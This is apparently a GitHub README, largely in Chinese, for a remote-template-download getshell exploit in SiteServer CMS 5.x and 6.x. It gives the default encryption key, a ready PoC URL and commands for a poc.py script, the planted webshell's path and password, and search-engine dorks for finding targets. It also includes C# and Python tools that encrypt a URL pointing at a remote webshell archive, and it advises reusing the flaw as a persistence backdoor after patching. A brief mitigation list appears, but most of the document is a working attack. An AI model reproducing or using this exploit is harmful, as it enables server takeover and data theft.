



## SiteServer-CMS-Remote-download-Getshell-vulnerability

SiteServer CMS 远程模板下载Getshell漏洞


漏洞缺陷是由于后台模板下载位置未对用户权限进行校验，且 ajaxOtherService中的downloadUrl参数可控，导致getshell，目前经过测试发现对5.0版本包含5.0以下通杀.先调用了DecryptStringBySecretKey函数将downloadurl先进行了解密，之后调用SiteTemplateDownload函数进行模板下载并自解压。

且SecretKey在5.0是默认值
> vEnfkn16t8aeaZKG3a4Gl9UUlzf4vgqU9xwh8ZV5


### Affected Version

SiteServerCMS 6.x（需要且SecretKey.Tips:查看web.config获取SecretKey，因为6.x的密钥是随机生成的，这里可以用作维持权限后门使用，即通过其他手段进去了，但管理员根据日志找到你进去的漏洞，修复后，可以再次通过此漏洞获取Webshell.或者你有其他办法能把SecretKey的值读取出来也可以组合使用.突然间关注这漏洞的人多了,这行属于另外再添加的.2020/02/26.）

SiteServerCMS 5.x

SiteServerCMS 4.x(测试没通过)

### PoC

> http://localhost/SiteServer/Ajax/ajaxOtherService.aspx?type=SiteTemplateDownload&userKeyPrefix=test&downloadUrl=aZlBAFKTavCnFX10p8sNYfr9FRNHM0slash0XP8EW1kEnDr4pNGA7T2XSz0yCY0add0MS3NiuXiz7rZruw8zMDybqtdhCgxw7u0ZCkLl9cxsma6ZWqYd0G56lB6242DFnwb6xxK4AudqJ0add0gNU9tDxOqBwAd37smw0equals00equals0&directoryName=sectest


```
python2 poc.py -u http://localhost
```

```
python2 poc.py -f url.txt
```

Ps:注意最后面没/

WebShell:http://localhost/SiteFiles/SiteTemplates/sectest/include.aspx

PassWord:admin


### 搜索引擎关键字:

inurl:/sitefiles/services

inurl:/siteserver/login.aspx

### 临时修复方案
修改 

> 1.修改C:/WebSite/SiteFiles/Configuration/Configuration.config文件里secretKey的值

> 2.然后修改根目录web.config下的DatabaseType/ConnectionString值都是通过下面的加密工具进行加密的字符串.

> 3.更改后台地址

> 4.更改(或移除模板下载功能)/SiteServer/Ajax/ajaxOtherService.aspx路径

### downloadUrl加密工具
#### C#

<CODE>dotnet new console -o test</CODE>

<CODE>dotnet run</CODE>
生成目录后的Program.cs替换以下代码

1.然后修改_inputString的值(你指定的下载地址)
```C#
using System; 
using System.IO; 
using System.Security.Cryptography; 
using System.Text; 
namespace EncryptApplication 
{ class Encrypt 
    { static void Main(string[] args) 
      { 
        var _encryptKey = "vEnfkn16t8aeaZKG3a4Gl9UUlzf4vgqU9xwh8ZV5"; 
        var _decryptKey = "vEnfkn16t8aeaZKG3a4Gl9UUlzf4vgqU9xwh8ZV5";
        var _inputString = "https://raw.githubusercontent.com/zhaoweiho/SiteServerCMS-Remote-download-Getshell/master/webshell/poxteam.zip";
        var _outString = ""; var _noteMessage = "";
        byte[] iv = { 0x12, 0x34, 0x56, 0x78, 0x90, 0xAB, 0xCD, 0xEF };
        try{ 
           var byKey = Encoding.UTF8.GetBytes(_encryptKey.Length > 8 ? _encryptKey.Substring(0, 8) : _encryptKey); 
          var des = new DESCryptoServiceProvider(); 
          var inputByteArray = Encoding.UTF8.GetBytes(_inputString); 
          var ms = new MemoryStream(); 
          var cs = new CryptoStream(ms, des.CreateEncryptor(byKey, iv), CryptoStreamMode.Write);     cs.Write(inputByteArray, 0, inputByteArray.Length);
         cs.FlushFinalBlock();
          _outString = Convert.ToBase64String(ms.ToArray()); 
         Console.WriteLine("DesEncrypt:"); Console.WriteLine(_outString); }
      catch (Exception error) { _noteMessage = error.Message; } 
 } } }
```


2.把出来的结果丢这里

Python

```python
str_decry = "aZlBAFKTavCnFX10p8sNYfr9FRNHM/XP8EW1kEnDr4pNGA7T2XSz0yCY+MS3NiuXiz7rZruw8zMDybqtdhCgxw7u0ZCkLl9cxsma6ZWqYd0G56lB6242DFnwb6xxK4AudqJ+gNU9tDxOqBwAd37smw=="
str_decry = str_decry.replace("+", "0add0").replace("=", "0equals0").replace("&", "0and0").replace("?", "0question0").replace("/", "0slash0")

print str_decry
```



得出转义后的下载链接，修改Poc.py 

<code>/SiteServer/Ajax/ajaxOtherService.aspx?type=SiteTemplateDownload&userKeyPrefix=test&downloadUrl=这里&directoryName=sectest</code>

### downloadUrl解密工具

(也可以用来解web.config的数据库链接信息,密钥不变的情况下,如果密钥变了找SiteFiles/Configuration/Configuration.config的secretKey的值)

1.先用python的还原

```python
str_decry = "aZlBAFKTavCnFX10p8sNYfr9FRNHM0slash0XP8EW1kEnDr4pNGA7T2XSz0yCY0add0MS3NiuXiz7rZruw8zMDybqtdhCgxw7u0ZCkLl9cxsma6ZWqYd0G56lB6242DFnwb6xxK4AudqJ0add0gNU9tDxOqBwAd37smw0equals00equals0"
str_decry = str_decry.replace("0add0", "+").replace("0equals0", "=").replace("0and0", "&").replace("0question0", "?").replace("0slash0", "/")

print str_decry

```


2.再用c#以下的代码还原回默认下载链接

```c#
using System; 
using System.IO; 
using System.Security.Cryptography; 
using System.Text; 
namespace EncryptApplication 
{ class Encrypt 
    { static void Main(string[] args) 
      { 
        var _encryptKey = "vEnfkn16t8aeaZKG3a4Gl9UUlzf4vgqU9xwh8ZV5"; 
        var _decryptKey = "vEnfkn16t8aeaZKG3a4Gl9UUlzf4vgqU9xwh8ZV5";
        var _inputString = "aZlBAFKTavCnFX10p8sNYfr9FRNHM/XP8EW1kEnDr4pNGA7T2XSz0yCY+MS3NiuXiz7rZruw8zMDybqtdhCgxw7u0ZCkLl9cxsma6ZWqYd0G56lB6242DFnwb6xxK4AudqJ+gNU9tDxOqBwAd37smw==";
        var _outString = ""; 
        var _noteMessage = "";
        byte[] iv = { 0x12, 0x34, 0x56, 0x78, 0x90, 0xAB, 0xCD, 0xEF };
        try
        { 
          var byKey = Encoding.UTF8.GetBytes(_decryptKey.Substring(0, 8)); 
          var des = new DESCryptoServiceProvider(); 
          var inputByteArray = Convert.FromBase64String(_inputString);
          var ms = new MemoryStream(); 
          var cs = new CryptoStream(ms, des.CreateDecryptor(byKey, iv), CryptoStreamMode.Write);
              cs.Write(inputByteArray, 0, inputByteArray.Length);
              cs.FlushFinalBlock();
          Encoding encoding = new UTF8Encoding();
          _outString = encoding.GetString(ms.ToArray());
         Console.WriteLine("DesEncrypt:"); Console.WriteLine(_outString); }
      catch (Exception error) { _noteMessage = error.Message; } 
 } } }
 
```

